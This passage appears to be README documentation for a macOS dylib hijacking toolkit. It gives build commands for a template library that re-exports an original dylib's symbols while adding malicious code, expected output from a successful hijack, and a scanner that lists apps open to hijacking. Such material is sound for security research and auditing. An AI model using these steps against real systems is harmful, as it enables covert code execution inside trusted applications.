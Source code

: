 ### 2. Dylib Hijacking Template
`templates/dylib_hijacking_template.c` demonstrates how to create a "hijacking" dylib that re-exports symbols from an original library while adding malicious functionality.

**Compilation:**
```bash
gcc -dynamiclib -current_version 1.0 -compatibility_version 1.0 -framework Foundation templates/dylib_hijacking_template.c -Wl,-reexport_library,/path/to/original.dylib -o hijack.dylib

# After compilation, fix the path:
install_name_tool -change @rpath/original.dylib /absolute/path/to/original.dylib hijack.dylib
```

**Expected Output:**
When the target application loads the hijacked dylib, you should see log entries in both the console output and system logs:
```
[+] Dylib hijack successful in /Applications/Target.app/Contents/MacOS/Target (PID: 1234)
[+] Running with UID=501, EUID=501
```

**What to do with the output:**
- Verify the dylib was loaded by the target application
- Check if any errors occurred during symbol re-exporting
- Modify the template to add your own functionality
- Use `sudo log stream` to monitor the syslog output in real-time

### 3. Dylib Hijacking Scanner
`tools/dylib_finder.sh` scans applications for potential dylib hijacking vulnerabilities.

**Usage:**
```bash
./tools/dylib_finder.sh /Applications
```

**Example Output:**
```
[+] Starting scan...
[+] Found 156 Mach-O binaries

Analyzing: /Applications/Example.app/Contents/MacOS/Example
[+] Checking for weak dylibs in Example
[-] /usr/lib/libMissing.dylib (DOES NOT EXIST - POTENTIAL HIJACK TARGET)
[+] Checking for @rpath dependencies in Example
[!] RPATH search order:
    @loader_path/../Frameworks -> /Applications/Example.app/Contents/Frameworks
    @executable_path/../Frameworks -> /Applications/Example.app/Contents/Frameworks
[!] Potential RPATH hijacking: First search path doesn't contain required dylibs
[+] Checking code signing for Example
[-] Has hardened runtime
[!] No library validation - potential target

[+] Analysis complete!
[+] Found 3 high-value hijacking opportunities
[+] Results saved to: dlopen_hijack_report_20230505_143045.txt
```
